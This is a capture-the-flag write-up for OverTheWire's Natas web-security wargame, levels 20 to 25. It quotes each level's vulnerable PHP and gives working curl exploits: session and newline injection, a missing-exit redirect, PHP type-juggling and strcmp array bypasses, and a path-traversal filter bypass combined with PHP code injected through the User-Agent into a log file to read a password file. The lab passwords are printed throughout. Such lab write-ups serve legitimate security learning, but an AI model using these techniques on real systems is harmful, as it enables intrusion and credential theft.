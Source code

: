 # Natas

## level 20

This level we try to write ```admin 1``` to the session file and save the cookie in ```cookie.txt```.

```
$ curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF 'http://natas20.natas.labs.overthewire.org/?name=ving%0Aadmin%201&debug' -c cookie.txt
```

The session file will be writen as below.

```
name ving
admin 1
```

```
$ curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF http://natas20.natas.labs.overthewire.org/?debug -b cookie.txt
```

```
You are an admin. The credentials for the next level are:
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

## level 21

```php
<?php
// http://natas21-experimenter.natas.labs.overthewire.org/index-source.html
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
?>
```

This give us chance to set ```admin``` value and save the cookie.

```
$ curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21-experimenter.natas.labs.overthewire.org/?debug -d 'admin=1' -d 'submit=Update' -c cookie.txt
```

```
$ curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ http://natas21.natas.labs.overthewire.org/?debug -b 'PHPSESSID=g6vcjrla9bv83197qugg85juo3'
```

```
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

## level 22

```php
<?php
// http://natas22.natas.labs.overthewire.org/index-source.html
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

We can't see the password in browser because we are redirected to ```/```.
Fortunately, there is no ```exit``` after redirection and the password is sent to browser client in fact.

```
$ curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/?revelio
```

```
You are an admin. The credentials for the next level are:
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

## level 23

```php
<?php
// http://natas23.natas.labs.overthewire.org/index-source.html
if(array_key_exists("passwd",$_REQUEST)){
    if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
        echo "<br>The credentials for the next level are:<br>";
        echo "<pre>Username: natas24 Password: <censored></pre>";
    }
    else{
        echo "<br>Wrong!<br>";
    }
}
?>
```

The password must include ```iloveyou``` and be greater than ```10``` after converted to integer.

```
$ curl -u natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE http://natas23.natas.labs.overthewire.org/ -F 'passwd=11iloveyou'
```

```
The credentials for the next level are:
Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

## level 24

```php
<?php
// http://natas24.natas.labs.overthewire.org/index-source.html
if(array_key_exists("passwd",$_REQUEST)){
    if(!strcmp($_REQUEST["passwd"],"<censored>")){
        echo "<br>The credentials for the next level are:<br>";
        echo "<pre>Username: natas25 Password: <censored></pre>";
    }
    else{
        echo "<br>Wrong!<br>";
    }
}
?>
```

Read the [PHP manual](http://php.net/manual/en/function.strcmp.php#102677). ```strcmp('pending',array())``` will return ```-1``` in PHP 5.2.16 (probably in all versions prior 5.3), but will return ```0``` in PHP 5.3.3.
If we pass the ```passwd``` value as an array, it's all solved.

```
$ curl -u natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg http://natas24.natas.labs.overthewire.org/ -F 'passwd[]=ving'
```

```
The credentials for the next level are:
Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

## level 25

```php
<?php
// http://natas25.natas.labs.overthewire.org/index-source.html
function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...

    if (file_exists($filename)){
        include($filename);
        return 1;
    }
    return 0;
}
?>
```

```../``` will be replaced by space to prevent directory traversal attempt and the path can not contain ```natas_webpass```, So we can not get the password directly.

But we can use the path below to read the log file. After replacement, ```..././..././..././..././..././tmp/natas25_<PHPSESSID>.log``` becomes ```../../../../../tmp/natas25_<PHPSESSID>.log```.

```php
<?php
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n";
    $fd=fopen("/tmp/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>
```

Now we want to write the password in the log file. The log records ```HTTP_USER_AGENT```, So we can inject some codes in it.

```
$ curl -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c http://natas25.natas.labs.overthewire.org/ -b 'PHPSESSID=v1347323qckbp3kbcj4f13tmq2' -H 'User-Agent: <?php echo file_get_contents("/etc/natas_webpass/natas26") ?>' -F 'lang=..././..././..././..././..././tmp/natas25_v1347323qckbp3kbcj4f13tmq2.log'
```

Then read the log file again.

```
[11.08.2016 07::47:57] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal attempt! fixing request."
```
